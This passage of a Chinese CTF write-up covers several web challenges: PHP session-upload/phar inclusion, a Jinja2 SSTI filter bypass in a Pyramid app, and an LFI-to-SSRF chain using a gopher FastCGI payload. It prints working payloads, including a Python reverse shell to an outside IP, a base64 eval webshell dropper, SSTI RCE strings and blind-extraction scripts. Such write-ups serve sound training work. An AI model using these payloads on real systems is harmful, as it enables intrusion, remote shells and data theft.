SQmQxQlVVVFZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVWQlVRWGRRVkZFMFVGUkJkMUJVVlhoUVZFRjNVRlJhUTFCVVFYZFFWRTE0VUZSQmQxQlVVWHBRVkVGM1VWVkdRbEZWUmtKUlZVWkNVVlZHUWxGVlJrSlJWVVpD' -F 'file=@/etc/passwd'
```

相当于是这种数据包

```http
POST / HTTP/1.1
Host: 125.70.243.22:31480
Cookie: PHPSESSID=baozongwi
Content-Type: multipart/form-data; boundary=---------------------------7d92e116208e1

-----------------------------7d92e116208e1
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

[=50=00=44=00...]
-----------------------------7d92e116208e1
Content-Disposition: form-data; name="file"; filename="passwd"
Content-Type: text/plain

内容来自 /etc/passwd 文件的内容
-----------------------------7d92e116208e1--

```

然后我们解码session文件(最初的phar文件)，然后来包含文件RCE

```
?filename=php://filter/read=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/tmp/sess_test

?filename=phar:///tmp/tmp.tmp/test.txt
```

但是这里我的poc始终不成功，我拿出题人的打就可以，于是我决定起个docker

```php
<?php
function waf($request):int
{
    if(preg_match('/(input|data|stdin)/i',$request)){
        die("no!");
    }
    return 1;
}
```

这是waf，然后index.php一样的，写个Dockerfile和start.sh

```sh
#!/bin/bash

# 启动 PHP 内置服务器
php -S 0.0.0.0:8080 -t /var/www/html
```

```dockerfile
FROM php:7.2-cli

# 创建脚本文件并设置权限
RUN echo '#!/bin/bash' > /readflag && \
    echo 'echo flag{test}' >> /readflag && \
    chmod +x /readflag

# 设置工作目录
WORKDIR /var/www/html

# 复制当前目录文件到容器的工作目录
COPY . .

# 复制并设置权限
COPY start.sh /start.sh
RUN chmod +x /start.sh

# 使用 shell 启动 PHP 内置服务器
CMD ["/bin/bash", "-c", "php -S 0.0.0.0:8080 -t /var/www/html & /start.sh"]
EXPOSE 8080
```

```
docker build -t test .
docker run -d -p 8080:8080 --name test_1 test
docker exec -it test_1 sh
```

搭建好之后发现这个东西要挂载一些特殊设置不然写不了文件，我终于知道为啥有些师傅用虚拟机做demo了，我是明白了

```
curl http://27.25.151.48:8080/ -H 'Cookie: PHPSESSID=k' -F 'PHP_SESSION_UPLOAD_PROGRESS=ZZVUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMUJVWXpWUVZFRjNVRlJSTlZCVVFYZFFWRTB6VUZSQmQxQlVXVEpRVkVGM1VGUlZlRkJVUVhkUVZGa3pVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhsUVZFRjNVRlJOZDFCVVFYZFFWRlpDVUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVVrUlFWRUYzVUZSYVJsQlVRWGRRVkZWNVVGUkJkMUJVVFRCUVZFRjNVRlJaTUZCVVFYZFFWRkY0VUZSQmQxQlVWWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk1GQlVRWGRRVkZrd1VGUkJkMUJVVlRSUVZFRjNVRlJSZVZCVVFYZFFWR013VUZSQmQxQlVXa1pRVkVGM1VGUlJlVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJqTkZCVVFYZFFWRXBEVUZSQmQxQlVXVEpRVkVGM1VGUk5OVkJVUVhkUVZGazFVRlJCZDFCVVRYbFFWRUYzVUZSUmVGQlVRWGRRVkZWNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk5GQlVRWGRRVkZWNVVGUkJkMUJVV2tSUVZFRjNVRlJaZWxCVVFYZFFWRTE2VUZSQmQxQlVWWGxRVkVGM1VGUlNRbEJVUVhkUVZGVjVVRlJCZDFCVVVrZFFWRUYzVUZSTmQxQlVRWGRRVkdNeVVGUkJkMUJVVlRWUVZFRjNVRlJqTVZCVVFYZFFWRkpEVUZSQmQxQlVUVEZRVkVGM1VGUk5NVkJVUVhkUVZGSkNVRlJCZDFCVVRYcFFWRUYzVUZSV1FsQlVRWGRRVkdONVVGUkJkMUJVU2tOUVZFRjNVRlJSTkZCVVFYZFFWR04zVUZSQmQxQlVUVEJRVkVGM1VGUk5NMUJVUVhkUVZGRXlVRlJCZDFCVVVrTlFWRUYzVUZSWk5GQlVRWGRRVkZwSFVGUkJkMUJVVlRCUVZFRjNVRlJaTWxCVVFYZFFWRkV6VUZSQmQxQlVZek5RVkVGM1VGUlJOVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVRSUVZFRjNVRlJWZUZCVVFYZFFWRnBEVUZSQmQxQlVUWGhRVkVGM1VGUlJlbEJVUVhkUlZVWkNVVlZHUWxGVlJrSlJWVVpD'  -F 'file=@/etc/passwd' 
```

## Ez_Gallery

就一个验证码登录的界面，让我想起了网鼎杯那个验证码烂的抠脚，看看源码发现这个

```js
function refreshCaptcha() {
        document.querySelector('.captcha-container img').src = '/captcha?' + Math.random();
    }

    document.getElementById('loginForm').onsubmit = async function (e) {
        e.preventDefault();  // 阻止表单默认提交

        const formData = new FormData(this);
        const errorMessage = document.getElementById('error-message');
        errorMessage.style.display = 'none';  // Reset error message visibility

        // 将 FormData 转换为 URL 编码格式
        const params = new URLSearchParams(formData).toString();

        // 发送登录请求
        const loginResponse = await fetch(this.action, {
            method: this.method,
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: params,  // 使用 URL 编码后的参数
        });

        const text = await loginResponse.text();
        if (text.includes("验证码错误")) {
            errorMessage.textContent = "验证码错误，请重试。";  // 提示验证码错误
            errorMessage.style.display = 'block';  // 显示错误消息
            refreshCaptcha();  // 刷新验证码
        } else if (text.includes("登录成功")) {
            alert("登录成功，欢迎！");  // 弹窗提示登录成功
            location.href = "/home";  // 跳转到首页
        } else {
            errorMessage.textContent = "用户名或密码错误，请重试。";  // 提示用户名或密码错误
            errorMessage.style.display = 'block';  // 显示错误消息
            refreshCaptcha();  // 刷新验证码
        }
    };
```

扫出来

```
[22:53:11] Starting: 
[22:53:57] 403 -   12B  - /home                                             
[22:53:59] 403 -   12B  - /info                                             
[22:54:02] 200 -    5KB - /login                                            
[22:54:23] 403 -   12B  - /shell 
```

但是都还是要登录，只要登录了就行

```
admin
123456
```

然后观察

```
http://125.70.243.22:31947/info?file=/etc/passwd

http://125.70.243.22:31947/info?file=/proc/self/environ

http://125.70.243.22:31947/info?file=/proc/self/cmdline

http://125.70.243.22:31947/info?file=/app/app.py
```

```python
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {
    "admin": User("admin", "123456")
}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)
    
    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"
    
    return {
        'file_name': file_name,
        'content': content,
        'file_base': file_base
    }

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)
    
    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)
    
    return {
        'picture_list': picture_list,
        'file_contents': file_contents
    }

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()
        
        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！<a href='/home'>点击进入主页</a>")
        else:
            return Response("用户名或密码错误。")
    
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)
    
    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [
        r'.*length.*',
        r'.*count.*',
        r'.*[0-9].*',
        r'.*\..*',
        r'.*soft.*',
        r'.*%.*'
    ]
    
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result is not None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')

def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view
        
        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')
        
        config.scan()
        app = config.make_wsgi_app()
    
    return app

if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```



打SSTI，这里要绕过但是发现就是很难绕过，想直接打非预期

```python
import requests
from itertools import product
import time

# 定义字符替换规则
replace_list = {
    'f': ['f', '4', 'F'],
    'l': ['1', 'I', 'L', 'i', 'l'],
    'a': ['@', '2', '3', '4', 'a'],
    'g': ['g', '9', 'G', '3', '6']
}

# 目标字符串
target = "flag"


# 生成所有可能的组合
def generate_combinations(target, replace_list):
    # 将目标字符串拆分成字符列表
    chars = list(target)

    # 生成每个字符的所有可能替换
    replacements = []
    for char in chars:
        if char in replace_list:
            replacements.append(replace_list[char])
        else:
            replacements.append([char])

    # 使用 itertools.product 生成所有可能的组合
    combinations = [''.join(combination) for combination in product(*replacements)]

    return combinations


# 生成所有可能的组合
combinations = generate_combinations(target, replace_list)

# 目标 URL
url = "http://125.70.243.22:31947/info"

# 设置 Cookie
cookies = {
    'PHPSESSID': 'j9ffj6v96l7lg3cm4lr875oice',
    'session': 'bLXw9t8uz0Urae1LiMCQjNVZlqIGZSCYEoHuxHwTJP3SLjzkLHPs46ZgLjiSHfA9Q9tWo9ycgWYaMlxUyqtDj1sxNzMzNTQ4ODk2LCAxNzMzNTQ2MjIzLjE1OTU3MTYsIHsidXNlcm5hbWUiOiAiYWRtaW4ifV0'
}

# 发送请求
for combination in combinations:
    params = {"file": f"{combination}"}
    response = requests.get(url, params=params, cookies=cookies)
    time.sleep(0.1)  # 暂停0.1秒以避免请求过于频繁
    # 打印响应
    print(f"Sent: {combination}")
    print(f"Response: {response.status_code} {response.text}")

    # 如果响应中包含特定的内容，可以停止发送请求
    if "D0g3xGC" in response.text:
        print(f"Found special response with combination: {combination}")
        break

```

然后没成功，还得绕过才行

```python
import string
import requests

url = 'http://125.70.243.22:31058/shell'
cookies = {"session":"jCUiYVDa5afbsIUwaPVldBDGFZ7wqN1F0eSz_aL9JrFCNAX6lTt1AebCTyCLY2HTGi6z5vivl-TtfGtMHFc4dVsxNzMzNTU5ODYwLCAxNzMzNTU5ODU5LjQzNDI4OSwgeyJ1c2VybmFtZSI6ICJhZG1pbiJ9XQ"}
s = string.ascii_lowercase+"{"+"}"+"_"+"-"+"1"+"2"+"3"+"4"+"5"+"6"+"7"+"8"+"9"+"QWERTYUIOPASDFGHJKLZXCVBNM!@#$%^&*()+"

resurt=''
tmplenth = len(s)

for j in range(0,50):
    for i in s:
        x = 'A'*j
        print(x)
        if i=="1" or i=="2" or i=="3" or i=="4" or i=="5" or i=="6" or i=="7" or i=="8" or i=="9":
            a = "$(echo "+"A"*(int(i)-1)+" | wc -m)"
            payload = "{{''['__class__']['__base__']['__subclasses__']()[" + "True" + "%2bTrue" * 126 + "]['__init__']['__globals__']['popen']('a=`/readflag`%26%26if [ `echo $a|cut -c $(echo " + x + " | wc -m)` = \"" + a + "\" ]\nthen\n\tsleep $(echo ABCDE | wc -m)\nfi')['read']()}}"
        else:
            payload = "{{''['__class__']['__base__']['__subclasses__']()["+"True"+"%2bTrue"*126+"]['__init__']['__globals__']['popen']('a=`/readflag`%26%26if [ `echo $a|cut -c $(echo "+x+" | wc -m)` = \""+i+"\" ]\nthen\n\tsleep $(echo ABCDE | wc -m)\nfi')['read']()}}"
        try:
            response = requests.get(url+"?shellcmd="+payload, cookies=cookies,timeout=4)
        except:
            resurt += str(i)
            print(resurt)
            tmplenth = len(s)
            if i == '}':
                exit(0)
            break
        #走完一个循环还没有break，就手动添加0，再break
        tmplenth = tmplenth-1
        if tmplenth == 0:
            tmplenth = len(s)
            print("不对这里")
            resurt += "0"
            print(resurt)
            break
```

emm没跑出来脚本有问题不过其实我当时应该起个demo的这个过滤没有那么严格

```python
blacklist_patterns = [
        r'.*length.*',
        r'.*count.*',
        r'.*[0-9].*',
        r'.*\..*',
        r'.*soft.*',
        r'.*%.*'
    ]
```

这里主要过滤了数字和计算长度的，这样子回头来看我觉得这个过滤的好像是在防范Ctfshow最后那几道题，用两个过滤器其实就可以绕过了，只不过这里是无回显的而且还是jinja，flask的内存马就用不了了，那我们这里主要就使用两个过滤器

```
__getitem__   #代替中括号
|attr  #代替.

__globals__['__builtins__']
等效
__globals__|attr('__getitem__')('__builtins__')
```

然后经过绕过发现了唯一的问题

```
(request|attr('form')|attr('get')('name'))
request|attr('cookies')|attr('x1')
# 不能用
request.cookies.x1
request.form.get.name
# 可以用
```

```
{{config|attr('__cl''ass__')|attr('__in''it__')|attr('__glo''bals__')|attr('__getitem__')('__buil''tins__')|attr('__get''item__')('ev''al')(request|attr('form')|attr('get')('name'))}}

name=__import__('os').system('python3+-c+\'import socket,subprocess,os%3bs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("27.25.151.48",9999))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport pty; pty.spawn("sh")\'')
```

结果那里面没有成功后来仔细一看代码原来如此



```http
GET /shell?shellcmd={{config|attr('__cl''ass__')|attr('__in''it__')|attr('__glo''bals__')|attr('__getitem__')('__buil''tins__')|attr('__get''item__')('ev''al')(request|attr('GET')|attr('get')('wi'))}}&wi=__import__('os').system('python3+-c+\'import+socket,subprocess,os%3bs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("27.25.151.48",9999))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3bpty.spawn("sh")\'') HTTP/1.1
Host: 125.70.243.22:31493
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Pragma: no-cache
Cookie: session=T2-p4dYTPcdJ3L8ecc8woXneQWjrfUeRhTpBqBimxpyDPkA4SjJF8SzdP-fowbRC8v-z0BkKDm-g5CPELba5-1sxNzMzODIxMzUyLCAxNzMzNzk1MzQ3LjE4NDE5NTgsIHsidXNlcm5hbWUiOiAiYWRtaW4ifV0
referer: http://125.70.243.22:31493/login
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


```

还找了这三种poc

```
{{cycler['__init__']['__globals__']['__builtins__']['exec']("getattr(request,'add_response_callback')(lambda request,response:setattr(response,'text',getattr(getattr(__import__('os'),'popen')('whoami'),'read')()))",{'request':request})}}

{{cycler['__init__']['__globals__']['__builtins__']['setattr'](cycler['__init__']['__globals__']['__builtins__']['__import__']('sys')['modules']['wsgiref']['simple_server']['ServerHandler'],'http_version',cycler['__init__']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']())}}

{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('simple_server')|attr('ServerHandler'),'server_so'+'ftware',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('/readflag')['read']())}}
```

都是可以打通的有钩子等等可利用函数(~~是怎么每次都能找到新的的~~)

## signal

直接扫出来一个备份文件

```
[04:27:23] 200 -   12KB - /.index.php.swp                                   
[04:27:27] 302 -    0B  - /admin.php  ->  index.php                         
[04:27:38] 200 -    4KB - /index.php
```

然后恢复一下得到



```
vim -r index.php.swp

guest::MyF3iend
```

一进来就感觉可以读取文件

```
http://125.70.243.22:31256/guest.php?path=/etc/passwd
```

我读了一下guest.php给读烂了？什么玩意，常见手法，上次极客大挑战用过的二次编码来读一下

```http
GET /guest.php?path=php://filter/%2563%256f%256e%2576%2565%2572%2574.%2562%2561%2573%2565%2536%2534-encode/resource=guest.php HTTP/1.1
Host: 125.70.243.22:31680
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
referer: http://125.70.243.22:31680/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
Cookie: session=LxXwPegFNr38g9Vvl9obkEL2fYUMOGjUf3eQKuP2nB9-PniL1WH89I8bmkfa0HOspLJylT9iiawe78uZfexxFVsxNzMzODIyMTMwLCAxNzMzNzk1MzQ3LjE4NDE5NTgsIHsidXNlcm5hbWUiOiAiYWRtaW4ifV0; PHPSESSID=fdjkph0apthvvou9at0a00np9k


```

```php
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'guest' ) {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}

if (!isset($_GET['path'])) {
    header("Location: /guest.php?path=/tmp/hello.php");
    exit;
}

$path = $_GET['path'];
if (preg_match('/(\.\.\/|php:\/\/tmp|string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|\_)/i', $path)) {
    echo "Don't do this";
}else{
    include($path);
}

?>
```

这里可以直接包含文件诶，再读一下index.php

```php
<?php
session_start();
?>
<div class="login-container">
    <form action="StoredAccounts.php" method="POST">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required><br><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required><br><br>
        <input type="submit" value="Login">
    </form>
<p class="status-message"><?php echo $_SESSION['error']; ?></p>
</div>
</body>
</html>
```

那刚才说了有admin用户可以试着读一下

```php
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'admin') {
    $_SESSION['error'] = 'Please fill in the username and password';
    header("Location: index.php");
    exit();
}

$url = $_POST['url'];
$error_message = '';
$page_content = '';

if (isset($url)) {
    if (!preg_match('/^https:\/\//', $url)) {
        $error_message = 'Invalid URL, only https allowed';
    } else {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        $page_content = curl_exec($ch);
        if ($page_content === false) {
            $error_message = 'Failed to fetch the URL content';
        }
        curl_close($ch);
    }
}
?>
<div class='login-container'>
    <h2>Welcome</h2>
    <p>网页查看，just do it😎</p>
    <form method='post' action=''>
        <input type='text' name='url' placeholder='Enter URL' required>
        <button type='submit'>Submit</button>
        <?php if (!empty($error_message)) : ?>
            <div class='error'><?= htmlspecialchars($error_message) ?></div>
        <?php endif; ?>
    </form>
    <?php if (!empty($page_content)) : ?>
        <div class='content'>
            <?= nl2br(htmlspecialchars($page_content)); ?>
        </div>
    <?php endif; ?>
</div>
</body>
</html>
```

这里能打一个ssrf，经典302跳转打，但是这里发现必须要admin不然放链接的地方都没有回来看到说可以读取**StoredAccounts.php**(index.php里面)

```php
<?php
session_start();

$users = [
    'admin' => 'FetxRuFebAdm4nHace',
    'guest' => 'MyF3iend'
];

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if (isset($users[$username]) && $users[$username] === $password) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $username;

        if ($username === 'admin') {
            header('Location: admin.php');
        } else {
            header('Location: guest.php');
        }
        exit();
    } else {
        $_SESSION['error'] = 'Invalid username or password';
        header('Location: index.php');
        exit();
    }
} else {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}
```



https要写一个302跳转的php，但是我不会，哈哈最早接触的时候应该是5月的国赛，其中有一道题也是要打一个302跳转，当时应该也是我问我师父的第一道题但是还是没做，欠着了，现在补上

```bash
baozongwi@ubuntu:~/Desktop$ gopherus --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/index.php
Terminal command to run:  echo PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d > /var/www/html/shell.php

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH129%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%81%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg%3D%3D%7Cbase64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```

那么在自己服务器上面写一个php

```php
<?php
header("Location:gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH129%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%81%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg%3D%3D%7Cbase64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00");
```

然后放进去



没那么难配拿下，然后我们打入之后就1为密码就行



根目录下面是假的我们提权看看

```
1=echo `sudo -l`;

1=echo `sudo /bin/cat /tmp/whereflag`;

1=echo `sudo /bin/cat /tmp/whereflag/../../../../../../../../../../../../../root/flag`;
```

拿到flag，但是其实那个include包含我们就可以直接打了，怎么打呢，今年这个姿势真的被用了很多次了(我也就打了几个月希特爱抚)，用filter链来打就行

```php
<?php
$base64_payload = "PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==";
$conversions = array(
    '/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
